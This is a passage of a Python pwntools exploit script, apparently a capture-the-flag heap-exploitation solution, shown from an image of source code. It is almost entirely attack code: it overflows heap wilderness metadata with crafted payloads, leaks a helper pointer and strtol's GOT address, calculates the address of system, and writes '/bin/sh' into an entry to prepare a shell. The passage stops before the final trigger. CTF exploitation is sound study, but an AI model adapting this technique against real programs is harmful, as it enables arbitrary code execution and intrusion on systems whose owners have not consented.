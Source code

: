 r.recv(timeout=1)

# Wrap around to reach the helper ptr
r.sendline('3')
r.recv(timeout=1)

r.sendline(str(-0x960))
r.recv(timeout=1)

r.sendline('4')
r.recv(timeout=1)

r.sendline('1')
r.recv(timeout=1)

r.sendline('4')
r.recv(timeout=1)

payload = p64(0x32)							# <- ASCII '2' for print_entries
payload += p64(0xffffffffffffffff) * 30
payload += p64(0x111)						# restoring the current chunk's metadata
payload += p64(0) * 2
payload += p64(leak - 0x940)
payload += p64(0xffffffffffffffff) * 31 	# overflowing the new wilderness md
r.sendline(payload)

helper_ptr = r.recvuntil('Large: ')
helper_ptr = r.recvuntil('Large: ')
helper_ptr = r.recvuntil('Large: ')
helper_ptr = r.recvuntil('Large: ')
helper_ptr = int(r.recv(12), 16)

log.info("helper ptr: " + hex(helper_ptr))

# Stage 3 - Leak an entry from the GOT
payload = p64(0x32)							# <- ASCII '2' for print_entries
payload += p64(0xffffffffffffffff) * 30
payload += p64(0x111)						# restoring the current chunk's metadata
payload += p64(leak_ptr + 0x11374) * 2
payload += p64(0)
payload += p64(0xffffffffffffffff) * 31 	# overflowing the current wilderness
r.sendline(payload)

leak_strtol = r.recvuntil('Large: ')
leak_strtol = r.recvuntil('Large: ')
leak_strtol = r.recvuntil('Small: ')
leak_strtol = u64(r.recv(5).ljust(8, '\0'))
log.info("Strtol@GOT: " + hex(leak_strtol))

system = leak_strtol + 0x88e8				# Calc system from leak
log.info("System: " + hex(system))

# Stage 4 - Overwriting helper ptr and first entries->large
r.sendline('1')
r.recv(timeout=1)
r.sendline('3')
r.recv(timeout=1)
r.sendline(str(0x490 + 0x50))	# Positive malloc to reach the first entries struct
r.recv(timeout=1)

r.sendline('2')					# Overflow the first entries->large with '/bin/sh'
r.recv(timeout=1)
r.sendline('/bin/sh')
r.recv(timeout=1)
